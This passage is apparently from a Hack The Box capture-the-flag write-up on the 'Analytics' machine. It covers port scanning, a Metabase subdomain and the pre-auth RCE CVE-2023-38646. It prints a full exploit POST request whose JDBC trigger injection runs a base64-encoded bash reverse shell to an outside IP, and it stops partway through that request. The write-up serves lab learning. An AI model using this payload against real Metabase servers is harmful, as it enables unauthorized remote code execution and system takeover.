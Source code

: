 ```python
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveal *2 open ports* (22 & 80) and we can see its redirecting to the domain *analytical.htb*. Adding analytical.htb to /etc/hosts allowed us to access the web service; after investigating the web page we can find a subdomain, data.analytical.htb, hosting a **Metabase** login page.

![Alt Text](/assets/images/HTB/Analytics/Analitics1.png)

## FootHold.

### Finding the exploit.
I looked only for "metabase Vulnerabilities" and I am able to find an unauthenticated RCE vulnerability (**CVE-2023-38646**). CVE-2023-38646 is a critical vulnerability in Metabase, an open-source business intelligence tool, allowing pre-authentication remote code execution (RCE). This means an attacker can execute arbitrary commands on a Metabase server **without needing valid login credentials**. Exploiting this required extracting the setup token from the API endpoint */api/session/properties* (for more information on this exploit, check this [blog](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646)).

### Exploit setup.

If we go to http://data.analytical.htb/api/session/properties we will be able to see some "restictied/privileged" information the API is providing us due to **insufficient validation and accass control** on metabase.

![Alt Text](/assets/images/HTB/Analytics/Analitics2.png)

- **setup-token** :249fa03d-fd94-4d5b-b94f-b4ebf3df681f

By creating a payload encoded in Base64, we could inject a reverse shell via Metabase's database setup. Here is an example of the *post* request that needs to be made to trigger the vulnerability:

```json
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
```